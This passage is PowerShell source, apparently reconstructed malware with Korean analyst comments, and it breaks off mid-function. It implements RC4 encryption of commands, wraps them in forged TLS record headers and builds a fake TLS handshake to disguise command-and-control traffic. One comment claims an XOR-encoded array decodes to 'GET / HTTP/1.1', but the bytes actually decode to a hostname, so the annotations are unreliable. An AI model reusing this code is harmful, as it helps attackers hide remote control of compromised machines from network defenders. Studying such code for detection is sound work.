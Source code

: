```powershell
    )
    $S = 0..255 | ForEach-Object { [byte]$_ } # S-box 초기화
    $j = 0
    for ($i = 0; $i -lt 256; $i++) {
        $j = ($j + $S[$i] + $Key[$i % $Key.Length]) % 256
        $S[$i], $S[$j] = $S[$j], $S[$i] # S-box 스왑
    }
    $i = 0
    $j = 0
    $Output = @()
    foreach ($Byte in $Data) {
        $i = ($i + 1) % 256
        $j = ($j + $S[$i]) % 256
        $S[$i], $S[$j] = $S[$j], $S[$i] # S-box 스왑
        $K = $S[($S[$i] + $S[$j]) % 256]
        $Output += ($Byte -bxor $K) # XOR 연산으로 데이터 복호화/암호화
    }
    return , $Output
}

# 명령을 암호화하여 전송 형식에 맞게 구성하는 함수
function EncodeAndEncryptCommand {
    param ([string]$CommandString)
    $CommandBytes = [System.Text.Encoding]::UTF8.GetBytes($CommandString)
    # RC4 암호화 + 0x02, 0x04, 0x06, 0x08 바이트 추가 (패딩 또는 특정 프로토콜 포맷으로 추정)
    $EncryptedCommandBytes = (RC4 -Key $RC4Key -Data $CommandBytes) + (0x02, 0x04, 0x06, 0x08)
    $LengthBytes = [System.BitConverter]::GetBytes([int16]$EncryptedCommandBytes.Length)
    [Array]::Reverse($LengthBytes) # Little-endian을 Big-endian으로 변환
    # (0x17, 0x03, 0x03) 헤더 + 길이 + 암호화된 명령
    return (0x17, 0x03, 0x03) + $LengthBytes + $EncryptedCommandBytes
}

# 초기 핸드셰이크 또는 초기 데이터 전송을 위한 메시지를 생성하는 함수
function GenerateInitialMessage {
    # "GET / HTTP/1.1" 문자열을 XOR 복호화
    $DecryptedString = (XORDecryptBytes -EncryptedBytes @(168, 187, 172, 183, 184, 167, 240, 186, 171, 169, 176, 177, 176, 186, 187, 172, 240, 189, 177, 179) -XORKey 222) # "GET / HTTP/1.1`r`nHost: "
    $AsciiBytes = [System.Text.Encoding]::ASCII.GetBytes($DecryptedString)
    $LengthBytes1 = [byte[]] ([BitConverter]::GetBytes([UInt16]$AsciiBytes.Length))
    [Array]::Reverse($LengthBytes1)
    $Part1 = @(0x00) + $LengthBytes1 + $AsciiBytes

    $LengthBytes2 = [byte[]] ([BitConverter]::GetBytes([UInt16]$Part1.Length))
    [Array]::Reverse($LengthBytes2)
    $Part2 = $LengthBytes2 + $Part1

    $LengthBytes3 = [byte[]] ([BitConverter]::GetBytes([UInt16]$Part2.Length))
    [Array]::Reverse($LengthBytes3)
    $Part3 = @(0x00, 0x00) + $LengthBytes3 + $Part2

    # 고정된 바이트 배열 (추가적인 프로토콜 헤더 또는 데이터로 추정)
    $FixedBytes = @(0x00, 0x0b, 0x00, 0x04, 0x03, 0x00, 0x01, 0x02, 0x00, 0x0a, 0x00, 0x16, 0x00, 0x14, 0x00, 0x1d, 0x00, 0x17, 0x00, 0x1e, 0x00, 0x19, 0x00, 0x18, 0x01, 0x00, 0x01, 0x01, 0x01, 0x02, 0x01, 0x03, 0x01, 0x04, 0x00, 0x23, 0x00, 0x00, 0x00, 0x16, 0x00, 0x00, 0x00, 0x17, 0x00, 0x00, 0x00, 0x0d, 0x00, 0x1e, 0x00, 0x1c, 0x04, 0x03, 0x05, 0x03, 0x06, 0x03, 0x08, 0x07, 0x08, 0x08, 0x08, 0x09, 0x08, 0x0a, 0x08, 0x0b, 0x08, 0x04, 0x08, 0x05, 0x08, 0x06, 0x04, 0x01, 0x05, 0x01, 0x06, 0x01, 0x00, 0x2b, 0x00, 0x03, 0x02, 0x03, 0x04, 0x00, 0x2d, 0x00, 0x02, 0x01, 0x01, 0x00, 0x33, 0x00, 0x26, 0x00, 0x24, 0x00, 0x1d, 0x00, 0x20, 0x35, 0x80, 0x72, 0xd6, 0x36, 0x58, 0x80, 0xd1, 0xae, 0xea, 0x32, 0x9a, 0xdf, 0x91, 0x21, 0x38, 0x38, 0x51, 0xed, 0x21, 0xa2, 0x8e, 0x3b, 0x75, 0xe9, 0x65, 0xd0, 0xd2, 0xcd, 0x16, 0x62, 0x54)
    $CombinedBytes = $Part3 + $FixedBytes

    $LengthBytes4 = [byte[]] ([BitConverter]::GetBytes([UInt16]$CombinedBytes.Length))
```